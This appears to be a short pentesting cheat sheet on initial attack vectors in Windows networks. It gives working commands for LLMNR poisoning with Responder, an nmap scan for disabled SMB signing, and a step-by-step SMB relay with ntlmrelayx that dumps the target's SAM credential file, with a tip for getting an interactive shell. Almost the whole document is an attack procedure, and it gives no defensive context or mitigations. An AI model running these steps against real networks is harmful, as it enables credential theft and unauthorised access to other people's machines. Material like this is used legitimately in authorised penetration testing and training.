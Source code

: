# Initial Attack Vectors

## LLMNR Poisoning
- `responder -I <INTERFACE_NAME> -dwv`


## SMB Relay
- smb signing must be disabled on the target (by default is disable on client windows and enable on server windows)
- relayed user credentials must be admin on target machine

#### Check if smb signing is off on the targets:
- `nmap --script=smb2-security-mode.nse -p445 192.168.189.0/24`

#### Steps for this attack:
1. edit `responder.conf` and turn off smb and http services
2. run responder : `responder -I <INTERFACE_NAME> -dwv`
3. Put targets ip address in targets.txt file
4. run `ntlmrelayx.py -tf targets.txt -smb2support`
5. it will capture SAM file of the target machine

- Note : using `-i` with `ntlmrelayx.py` will give an interactive shell
